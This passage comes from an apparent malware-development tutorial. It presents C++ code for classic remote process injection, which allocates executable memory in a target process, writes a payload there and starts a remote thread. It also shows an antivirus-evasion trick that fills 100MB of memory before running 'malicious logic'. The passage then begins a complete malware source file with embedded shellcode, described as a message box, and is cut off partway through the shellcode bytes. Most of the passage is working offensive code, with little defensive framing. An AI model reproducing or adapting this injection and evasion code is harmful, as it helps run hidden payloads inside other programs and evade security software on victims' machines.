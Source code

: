 ```cpp

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

This is classic variant, we define payload, allocate memory, copy into the new buffer, and then execute it.    

The main limit with AV scanner is the amount of time they can spend on each file. During a regular system scan, AV will have to analyze thousands of files. It just cannot spend too much time or power on a peculiar one. One of the "classic" AV evasion trick besides payload encryption: we just allocate and fill `100MB` of memory:    
```cpp
char *mem = NULL;
mem = (char *) malloc(100000000);
if (mem != NULL) {
  memset(mem, 00, 100000000);
  free(mem);
  //... run our malicious logic
}
```

So, let's go to update our simple malware:   

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
```